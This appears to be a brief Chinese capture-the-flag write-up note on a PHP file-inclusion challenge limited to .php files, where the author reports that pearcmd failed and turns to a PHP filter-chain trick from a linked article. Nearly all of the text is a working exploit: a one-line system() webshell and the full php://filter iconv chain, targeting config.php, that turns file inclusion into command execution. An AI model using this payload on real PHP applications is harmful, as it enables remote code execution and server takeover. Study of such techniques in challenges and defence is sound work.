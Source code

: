 文件包含限制后缀为 php, 试了 pearcmd 不行, 最后找到这个 trick

[https://tttang.com/archive/1395/](https://tttang.com/archive/1395/)

利用 php filter 生成一个命令执行的 webshell

```
<?php system($_GET[1]);;?>
```

```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.iconv.ISO6937.EUC-JP-MS|convert.iconv.EUCKR.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CN.ISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=config.php
```
